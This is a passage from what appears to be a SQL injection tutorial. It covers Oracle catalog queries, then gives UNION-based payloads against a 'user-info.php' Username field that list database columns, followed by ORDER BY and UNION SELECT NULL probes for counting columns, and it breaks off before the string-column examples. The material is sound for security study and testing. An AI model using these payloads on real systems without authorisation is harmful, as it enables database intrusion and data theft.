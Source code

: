 On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying all_tables:

```SQL
SELECT * FROM all_tables
```

And you can list columns by querying all_tab_columns:

```SQL
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

## 8. Attempt to determine column(s) names

```SQL
Technique: Direct Injection
Recon: Extract table columns from database using a single field
Page: user-info.php
Field: Username
Value: ' union select null,concat_ws('.', table_schema, table_name, column_name) AS username,null,null from INFORMATION_SCHEMA.COLUMNS--
```

## 8.1 Finding columns with a useful data type in an SQL injection UNION attack

First you need to know how many columns we have

The first method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs. For example, assuming the injection point is a quoted string within the WHERE clause of the original query, you would submit:

```SQL
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

Another method involves submitting a series of UNION SELECT payloads specifying a different number of null values:

```SQL
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

The reason for performing an SQL injection UNION attack is to be able to retrieve the results from an injected query.
Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

Having already determined the number of required columns, you can probe each column to test whether it can hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:
